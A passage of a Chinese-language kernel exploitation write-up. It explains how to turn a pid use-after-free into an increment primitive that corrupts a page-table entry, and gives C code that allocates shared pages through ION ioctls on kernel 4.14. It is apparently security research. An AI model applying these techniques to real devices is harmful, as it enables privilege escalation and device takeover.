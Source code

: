 #### 4-2-1. 利用pid UAF构造递增原语

**目标**：利用递增原语篡改受害者PTE。

选取受害者pid对象的`count`成员与有效PTE重合，`count`位于pid对象的前4字节（8字节对齐）：

```c
struct pid
{
    refcount_t count; //<------------- 4 bytes, aligned with 8
    unsigned int level;
    spinlock_t lock;
    /* lists of tasks that use this pid */
    struct hlist_head tasks[PIDTYPE_MAX];
    struct hlist_head inodes;
    /* wait queue for pidfd notifications */
    wait_queue_head_t wait_pidfd;
    struct rcu_head rcu;
    struct upid numbers[1];
};
```

尽管 `count` 字段只有4字节，但是与PTE的低4字节重合。Jann horn[12] 之前基于 `count` 构造了递增原语，但是限制也是由于fd资源有限，可通过 `fork()` 在多个进程中执行递增原语，突破限制。

#### 4-2-2. 分配共享页

内核4.14中没有 dma-buf，可通过ION来分配共享页，ION更加方便，因为可通过设置ION的flag直接从页分配器分配共享页。分配代码如下：

```c
#if LEGACY_ION
int alloc_pages_from_ion(int num) {

    struct ion_allocation_data data;
    memset(&data, 0, sizeof(data));

    data.heap_id_mask = 1 << ION_SYSTEM_HEAP_ID;
    data.len = 0x1000*num;
    data.flags = ION_FLAG_POOL_FORCE_ALLOC;
    if (ioctl(ion_fd, ION_IOC_ALLOC, &data) < 0) {
        perror("ioctl");
        return -1;
    };

    struct ion_fd_data fd_data;
    fd_data.handle = data.handle;
    if (ioctl(ion_fd, ION_IOC_MAP, &fd_data) < 0) {
        perror("ioctl");
        return -1;
    }
    int dma_buf_fd = fd_data.fd;
    return dma_buf_fd;
}
#else
int alloc_pages_from_ion(int num) {

    struct ion_allocation_data data;
    memset(&data, 0, sizeof(data));

    data.heap_id_mask = 1 << ION_SYSTEM_HEAP_ID;
    data.len = 0x1000*num;
    data.flags = ION_FLAG_POOL_FORCE_ALLOC;
    if (ioctl(ion_fd, ION_IOC_ALLOC, &data) < 0) {
        perror("ioctl");
        return -1;
    }
```